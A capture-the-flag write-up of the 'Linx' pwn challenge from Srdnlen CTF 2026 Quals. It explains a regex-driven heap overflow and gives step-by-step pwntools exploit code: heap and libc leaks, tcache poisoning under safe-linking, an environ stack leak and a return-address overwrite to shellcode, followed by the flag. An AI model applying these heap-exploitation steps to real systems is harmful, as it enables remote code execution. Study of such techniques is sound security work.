









# Linx

**CTF:** Srdnlen CTF 2026 Quals\
**Category:** PWN\
**Difficulty:** Hard\
**Solves:** 18\
**Authors:** [@doliv](https://github.com/doliv8) (Diego Oliva)

---

## Description

> You like linking with others, don't you?\
\
This is a remote challenge, you can connect to the service with: `nc linx.challs.srdnlen.it 1092`


# Overview

The provided binary is compiled for AMD64 architecture with PIE, stack canary, NX protection and Full RELRO enabled:



The server runs on **GLibc 2.42** (Dockerfile is provided).

The challenge allows you to create links in a graph-like way:
- the [`linking`](src/linx.c#L25) global dynamic array can be considered an _adjacency list_ containing the vertices of the graph and has [`links_cnt`](src/linx.c#L24) size
- the graph's nodes are strings allocated on the heap and their pointers are stored in the fixed size [`links`](src/linx.c#L23) global array

There's a maximum amount of nodes (`links`) which is [`30`](src/linx.c#L16).

Linking is kept updated using the [`linkT`](src/linx.c#L19) structure which holds indexes into the `links` array:
```c
typedef struct {
	size_t src_idx, dst_idx;
} linkT;
```

Linking is managed by the [`do_link`](src/linx.c#L71) and [`do_unlink`](src/linx.c#L45) functions.

A regex pattern is created in the [`initz`](src/linx.c#L29) constructor function, before `main` gets called.
The pattern allows linking with a syntax similar to [Markdown links](https://www.markdownguide.org/basic-syntax/#links):
```bash
^\[(.*)\]\((.*)\)
```
which captures two arbitrary long groups (_source link_ & _destionation link_) and can be used like this:
```bash
[<source link>](<destination link>)
```
> **NB**: the capture groups can contain any byte except zeros (`\0`) which would terminate the group and the whole link instruction string immediately, making it invalid


---

## Interacting

The challenge allows to insert a `0x20` bytes long shellcode at `0x1337000` at startup, before any other action can be performed.

The menu gives following options:
> [1] Insert new link\
> [2] Unlink a link\
> [3] Show links\
> [4] Quit

Which can be used from pwntools with these interaction functions:

```py
def do_link(src, dst):
    sla(b">> ", b"1")
    sla(b"> ", b'[%s](%s)' % (src, dst))

def do_unlink(link):
    sla(b">> ", b"2")
    sla(b"> ", b'%s' % link)

def show_links():
    sla(b">> ", b"3")
```

I'll also use these utility functions:

```py
ru  = lambda *x, **y: io.recvuntil(*x, **y)
rl  = lambda *x, **y: io.recvline(*x, **y)
sla = lambda *x, **y: io.sendlineafter(*x, **y)
sl  = lambda *x, **y: io.sendline(*x, **y)

protect_ptr = lambda pos, ptr: (pos >> 12) ^ ptr

def parse_leak(leak):
    return u64(leak + bytes(8-len(leak)))
```

---

# Solution

## Links heap overflow

A linking instruction is taken as user input in `do_link` and parsed with the regex to obtain its _source_ and _destination_ links:
```c
void do_link() {
	char text[512] = {0}; // <-- notice size

	printf("Insert your link (format: \"[<your src>](<your dst>)\")\n> ");
    if (fgets(text, sizeof(text), stdin) == NULL) exit(EXIT_FAILURE);
    text[strcspn(text, "\n")] = '\0';
    regmatch_t *m = calloc(re.re_nsub+1, sizeof(regmatch_t));
    if (regexec(&re, text, re.re_nsub+1, m, 0) == 0) {
	...
```
If regex isn't matched, nothing happens.

Links `src` and `dst` are dynamically allocated using calloc with constant [`LINKS_LEN`](src/linx.c#L17) size, but they are [filled](src/linx.c#L85) with the content of the groups (`(.*)`) matched by the regex:
```c
	...
		char *src = calloc(1, LINKS_LEN);
		char *dst = calloc(1, LINKS_LEN);
		for (size_t i = 1; i < re.re_nsub+1; i++) {
	        size_t len = m[i].rm_eo - m[i].rm_so;
			if (i == 1) // first group - link from
				memcpy(src, text+m[i].rm_so, len); // <-- can overflow
			else if (i == 2) // second group - link to
				memcpy(dst, text+m[i].rm_so, len); // <-- can overflow
		}
	...
```

This leads to a heap overflow of up to `511-4-LINKS_LEN` bytes.

Note also there's a UAF in [`do_link`'s logic](src/linx.c#L121), which could be useful to obtain leaks but we won't use it in this writeup.

## Obtaining a Heap leak

You can get a heap leak just by creating a link, overflowing its `src` or `dst` and reading from a `regexec` allocated internal struct which contains lots of heap pointers.

For example, before calling `regexec` for the first time, free bins look like this:



And after calling `regexec` this is what is left in the bins (precise heap utilisation actually depends on the link instruction string you feed it):



And you should notice that a chunk having lots of unmangled heap pointers (a internal struct used by `regexec`) is contiguous to the first `0x40` tcache freed chunk:



> NB: Remember all of our links (`src` / `dst`) do end up getting allocated in `0x40` sized chunks.

Hence overflowing the `src` chunk is enough to give us a heap leak. You can do so like this:
```py
# heap leak from regexec structs
HEAP_LEAK_OFF = 0x2830

do_link(b"a"*0x48, b"b"*0x38) # triggers two 0x428 allocations which when freed create a unsorted bin
ru(b'a'*0x48)
heap_leak = parse_leak(ru(b'"', drop=True))
heap_base = heap_leak - HEAP_LEAK_OFF
log.info(f'{heap_base = :x}')
```

> NB: the comment in the above exploit code refers to internal regexec allocations, as feeding it bigger link instruction strings triggers bigger allocations.

## Obtaining Libc leak

Now, starting from the previous heap configuration, it's fairly easy to obtain a `0x40` freed chunk just before a libc leak (unsorted bin bk) from another chunk which took a piece from the unsorted bin shrinking (i.e. the [`get_int`](src/linx.c#L10) heap buffer).

This is the situation you want to be in to leak a libc address:



So after the above call this is what you'll see:



So you can script the process like this:
```py
# do useless ops to make linking chunk resize and not get in the way later
do_link(b'c', b'd') # c pops from tcache[0x40]; d shrinks unsorted bin
do_unlink(b'c') # put back c into tcache[0x40]

do_link(b'e', b'f') # e is taken from tcache[0x40]; f shrinks unsorted bin
do_unlink(b'e') # freed into tcache[0x40]
do_unlink(b'f') # is adjacent to the unsorted bin which then gets shrinked to hold get_int buffer, which will still have unsorted bin's fd and bk


# libc leak from unsorted bin shrinking leftovers
LIBC_LEAK_OFF = libc.sym['main_arena']+0x60
do_link(b'g'*0x48, b'd') # g gets allocated just before unsorted bin shrinking leftovers
ru(b'g'*0x48)
libc_leak = parse_leak(ru(b'"', drop=True))
libc.address = libc_leak - LIBC_LEAK_OFF
log.info(f'{libc.address = :x}')
```

---

## Obtaining AAR/W (Arbitrary Address Read/Write)

For the purpose of getting malloc to return chosen addresses we can perform a [TCache poisoning attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_poisoning.c) by using the heap overflow from a `src` or `dst` to overwrite the fd pointer of a same sized (`0x40`) chunk freed into TCache bins and then trigger an allocation. The address we replace victim chunk's fd with must be `0x10` aligned and mangled (safe-linking, as we are on GLibc 2.42).

To setup the `0x40` bins for the TCache poisoning you can do the following operations:

```py
# spray a little, objective: getting 2x two contiguous chunks
do_link(b'x', b'y') # x takes from tcache; y takes from fastbin ex unsorted bin
do_link(b'z', b'w') # y and z will be contiguous
do_link(b'j1', b'j2') # do some allocs to get next allocs contiguous
do_link(b'pp', b'qq') # pp and qq are contiguous
# fill tcache for first tcache poisoning
do_unlink(b'w')
do_unlink(b'z')
do_unlink(b'y')
do_unlink(b'x')
# now have x -> y -> z -> w in tcache[0x40]
```

This is the `0x40` bins you want to have to overwrite a tcache freed chunk's fd (above script leads to this configuration):



Now, where to allocate the chunk depends on the RCE path you want to follow, for this writeup I'll follow **environ leak** + **return address overwrite with the shellcode address**.

So the following code allows to retrieve the **environ** global variable (inside glibc's address space) content leak (which contains a stack address that is at a constant offset from the stack frames of the program's normal execution flow):

```py
# tcache poisoning to leak environ variable
do_link(b'dontcare', flat(
    b'k'*0x40,
    protect_ptr(heap_base+0x6170, libc.sym['environ']-0x38) # must be 0x10 aligned
)[:-2]) # pop x (dont care), pop y and overflow into z's fd (@ heap+0x6170)

do_link(b'h', b'i'*0x38) # h is z and i is w which is allocated just before environ
ru(b'i'*0x38)
environ_leak = parse_leak(ru(b'"', drop=True))
log.info(f'{environ_leak = :x}')
```

## Getting RCE (Remote Code Execution)

As anticipated in this writeup I'll showcase the stack leak + return address overwrite approach, but there are other viable RCE paths like faking printf conversion specifiers `printf_function_table` & `printf_arginfo_table` (which was the intended solution) or `tls_dtor_list` overwrite or even FSOP.


To complete the attack, we repeat the TCache poisoing to get an allocation on the stack (we now know the address of, after environ leak) and overwrite a return address with the shellcode's address (`0x1337000`).

Again, we setup tcache bins for the attack:

```py
# now do the tcache poisoning again

# fill tcache for second tcache poisoning
do_unlink(b'dontcare')
do_unlink(b'qq')
do_unlink(b'pp')
do_unlink(b'd')
# now have d -> pp -> qq -> dontcare
```

And this is the kind of tcache[`0x40`] bins configuration you'll obtain following the above code:



Now we are ready to do TCache poisoning again to overwrite the end of the do_link's stack frame:

```py
# tcache poisoning to overwrite do_link return address
RETADDR_ENVIRON_OFF = -0x158
do_link(b'A', flat(
    b'B'*0x40,
    protect_ptr(heap_base+0x6d80, environ_leak+RETADDR_ENVIRON_OFF) # must be 0x10 aligned
)[:-2]) # pop d, pop pp and overflow into qq's fd (@ heap+0x6d80)

do_link(b'final', flat(
    b'C'*8, # saved rbp
    shellcode+1 # do_link ret addr
)[:-4]) # pops qq and pops overwritten fd (do_link ret_addr - 8)
```

And we now finally get to pop a shell once `do_link` returns:

```py
io.interactive() # shell
```



Flag: `srdnlen{y0u_ve_l1nk3d_v3ry_h4rd}`
